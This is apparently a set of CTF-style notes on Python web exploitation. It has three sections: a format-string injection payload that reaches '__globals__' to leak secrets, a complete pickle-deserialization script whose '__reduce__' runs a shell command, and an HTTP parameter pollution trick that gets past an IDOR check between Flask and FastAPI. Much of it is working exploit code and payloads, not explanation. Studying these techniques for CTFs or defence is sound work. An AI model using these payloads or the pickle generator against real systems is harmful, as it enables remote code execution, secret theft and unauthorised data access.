 # Python

Always look out for `str.replace()` because yes...

## Format string injection

Format string injection usually occurs when using `.format()`.

Example:
```py
a = input()
vuln = f'{{{a}}}'.format(random_string='asdf')
```

> `f'{{{a}}}'` resolves to `'{asdf}'`, input being `'asdf'`, which is passed to `'{asdf}'.format()`

> Instead of a single key, a dictionary can also be passed into `.format(**dict)`

The exploit is similar to SSTI RCE, but in this case, we don't have RCE as we cannot execute anything. Rather, we only can leak sensitive secrets (like flags)

1. Get access to a `__globals__` through the dict passed in 
	* `<key>.__init__.__globals__`
2. Access any global variable through `__globals__[name]`

> Note: if the application passes in additional attributes (like `f'{{{a}.code}}.format(**dict)`) that does not exist 
> in a string, you can escape {} and access another "proper" item that has the desired attribute

Payload:

`{item.__init__.__globals__[flag]} {item`

## Pickle unserialize

The pickle module is vulnerable to unsafe deserialization of Python objects.

Exploit:

```py
DEFAULT_COMMAND = ['env']

import pickle
import base64
import requests

#COMMAND = sys.argv[1] if len(sys.argv) > 1 else DEFAULT_COMMAND

class PickleRce(object):
    ''' __reduce__ can return either a string or a tuple. If it returns a string, then it should be the name of a global variable. If it returns a tuple, it should be in the following syntax: callable, (args), *object's state (will be passed to __setstate__(), *iterator of items (for list subclasses), *iterator of key-value pairs (for dict subclasses or if the class implements __setitem__()), *(obj, state) to set state of class (overriding __setstate__() if implemented)

    The one we are interested in for RCE is callable, (args)

    This has been implemented below.
    '''

    def __reduce__(self):
        import subprocess
        #import os
        return subprocess.check_output, (DEFAULT_COMMAND,)

def gen_payload():
    payload = bytes.decode(base64.b64encode(pickle.dumps(PickleRce())), 'utf-8')
    return payload

print(gen_payload())
```

Instead of `subprocess.check_output`, we can also use `os.popen().read()`, but note that on Windows, there is an issue serializing the os module which becomes "nt" module for some reason.

## HTTP Parameter Pollution with IDOR Vulnerability

> Example: A flask app which makes an internal API call to a FastAPI app.

```python
uid = request.args.get("uid")  
if(uid == str(current_user.user["id"])):   # MOST IMPORTANT CHECK! 
   # pass the url behind to fastapi
   fullurl = request.url 
   path = fullurl.replace(request.url_root, "").replace("fastapi", "")
   forwardurl = "http://localhost:8000" + path
   app.logger.debug("Forwarded URL to Fastapi: %s", forwardurl)
   r = requests.get(forwardurl)
   if(r.ok):
       try:
           j = r.json()
           msg = j['message']
           return Response(msg, status=200)
```

```python
@app.get("/retrievekey")
async def hpp(uid: str):
    r = db.getkey(uid)
    if(r and r['key']):
        location = "/securenote/" + r['key']
        result = 'You will redirect to your secure URL <a href="' + location + '">here</a>'
        # redirects
    return {"message": html}
```

You may think that Insecure Direct Object Reference (IDOR) is not possible, but it is!

Flask kind of "prefers" the first param while FastAPI "prefers" the last one (if you supply two `?uid=` params).

Hence by doing `retrievekey?uid=[i am authorised] &uid=[admin]`, we can access things which we aren't meant to access.

Resource: https://0xgaurang.medium.com/case-study-bypassing-idor-via-parameter-pollution-78f7b3f9f59d
